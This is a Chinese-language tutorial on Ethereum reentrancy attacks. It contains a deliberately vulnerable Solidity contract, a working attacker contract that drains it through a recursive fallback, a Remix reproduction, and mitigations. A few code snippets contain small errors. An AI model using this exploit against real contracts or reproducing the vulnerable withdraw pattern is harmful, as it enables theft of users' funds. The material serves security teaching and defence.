









# 重入攻击分析
---

                                                                                                    author：甘赞栩
## 漏洞概述
在以太坊中，智能合约能够调用其他外部合约的代码，由于智能合约可以调用外部合约或者发送以太币，这些操作需要合约提交外部的调用，所以这些合约外部的调用就可以被攻击者利用造成攻击劫持，使得被攻击合约在任意位置重新执行(回调)，绕过原代码中的限制条件，从而发生重入攻击。重入攻击本质上与编程里的递归调用类似，所以当合约将以太币发送到未知地址时就可能会发生。
* **发生条件**
    1. 调用了外部的合约且该合约是不安全的
    2. 外部合约的函数调用早于状态变量的修改

接下来给大家展示的是一个最简单的提款函数：
```
function withdraw(){
  require(msg.sender,call.value(balances[msg.sender])());
  balances[msg.sender]=0;
}
```
这种函数大多存在于钱包、去中心化交易所中，目的是为了让用户提款，将合约中的代币转换成通用的以太币。<br/>

## 漏洞分析
    在进入分析之前，先介绍几个基础知识
* 以太坊常用的转账的方法
    1. transfer()：只会发送 2300 gas 进行调用，当发送失败时会通过 throw 来进行回滚操作，从而防止了重入攻击。
    2. send()：只会发送 2300 gas 进行调用，当发送失败时会返回布尔值 false，从而防止了重入攻击。
    3. gas().call.vale()()：在调用时会发送所有的 gas，当发送失败时会返回布尔值 false，不能有效的防止重入攻击。
* fallback函数
    回退函数 (fallback function)：回退函数是每个合约中有且仅有一个没有名字的函数，并且该函数无参数，无返回值，如下所示：
    ```
    function() public payable{
        ...
    }
    ```
    回退函数在以下几种情况中被执行：
    1. 调用合约时没有匹配到任何一个函数
    2. 没有传数据
    3. 智能合约收到以太币（为了接受以太币，fallback 函数必被标记为 payable）

* 漏洞
    通过我们对fallback函数的了解。
    如果我们构造一个 fallback 函数，函数里面也调用对方的 withdraw 函数的话，那将会产生一个循环调用转账功能，存在漏洞的合约会不断向攻击者合约转账，终止循环结束（以太坊 gas 有上限）
    
    我们先来看一段比较典型的有重入漏洞的合约：
    ```
    pragma solidity ^0.4.19;

    contract Reentrance{
        address _owner;
        mapping (address => uint256) balances;

        function Reentrance(){
            _owner = msg.sender;
        }

        function withdraw(uint256 amount) public payable{
            require(balances[msg.sender] >= amount);
            require(this.balance >= amount);
            // 发送以太
            msg.sender.call.value(amount)();
            // 状态变量修改
            balances[msg.sender] -= amount;
        }

        function deposit() public payable{
            balances[msg.sender] += msg.value;
        }

        function balanceOf(address adre)constant returns(uint256){
            return balances[adre];
        }

        function wallet() constant returns(uint256 result){
            return this.balance;
        }


    }
    ```
    我们来看这个合约的 withdraw 函数，这个函数中的转账操作有一个外部调用（msg.sender.call.value(amount)()），所以我们就可以认为这个合约是可能有重入漏洞的，但是具体能否产生危害还需要更深入的分析：
    * 攻击者思路：
        >1. 所有的外部调用都是不安全的且合约在接收以太的时候会触发 fallback 函数执行相应的逻辑，这是一种隐藏的外部调用，这种隐藏的外部调用是否会造成危害呢？
        >2. 我们可以看到在 withdraw 函数中是先执行外部调用进行转账后才修改用户余额状态变量的，那我们可不可以在转账外部调用的时候构造一个恶意的逻辑合约在合约执行 balance[msg.sender] -= amount 之前一直循环调用 withdraw 函数一直提币从而将合约账户清空呢？
    * 攻击合约：
    ```
    pragma solidity ^0.4.19;
    import"./Reentrance.sol";

    contract ReentranceAttack{
        Reentrance re;
        function ReentranceAttack(address _target) public payable{
            re = Reentrance(_target);
        }

        function wallet()view returns(uint256){
            return this.balance;
        }

        function deposit()public payable {
            re.deposit.value(msg.value)();
        }

        function attack(){
            re.withdraw(1);
        }
        function () public payable {
            if (address(re).balance >= 1 ether){
                re.withdraw(1);
            }
        }

    }
    ```
    * 攻击原理：
        由于受害者合约withdraw函数使用call函数转账，会附加"所有可用gas"，并触发msg.sender的fallback函数。fallback 函数再次调用withdraw函数套利，由于withdraw函数最后一步才减去msg.sender对应的余额并记录导致递归调用withdraw函数require判断都能通过。直到合约中没有可用余额为止。
        类似于对攻击者fallback函数的递归调用
## 漏洞复现
首先用账户(`0x5B38Da6a701c568545dCfcB03FcB875f56beddC4`)模拟受害者，点击depoly开始部署。

然后将Value改为5，单位改为ether。点击deposit方法

查看当前账户余额为5ether，存款成功

创建一个新账户（`0xAb8483F64d9C6d1EcF9b849Ae677dD3315835cb2`）来模拟攻击者，在Deploy处填写漏洞合约地址，部署攻击合约。

部署成功后，先查看攻击合约的wallet为0

攻击者先存款 1 ether 到漏洞合约中，这里设置 VALUE 为 1 ether，之后点击攻击合约的 deposit 进行存款。

再次调用漏洞合约的wallet方法，却发现有了6 ether

攻击者 (`0xAb8483F64d9C6d1EcF9b849Ae677dD3315835cb2`) 调用攻击合约的 attack 函数模拟攻击，之后调用被攻击合约的 wallet 函数去查看合约的余额，发现已经归零，此时回到攻击合约查看余额，发现被攻击合约中的 6 ether 已经全部提款到了攻击者合约中，这就造成了重入攻击。


## 漏洞防范
* **加入防重入锁**
    下面是一个防重入锁的例子：
    ```
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.3;

    contract ReEntrancyGuard {
        bool internal locked;

        modifier noReentrant() {
            require(!locked, "No re-entrancy");
            locked = true;
            _; 
        locked = false; 
    }
    }
    ```

* **写代码时需要遵循先判断，后写入变量在进行外部调用的编码规范（Checks-Effects-Interactions）**

* **使用send() 和 transfer() 转币，只会传递2300Gas供调用，防止重入攻击。**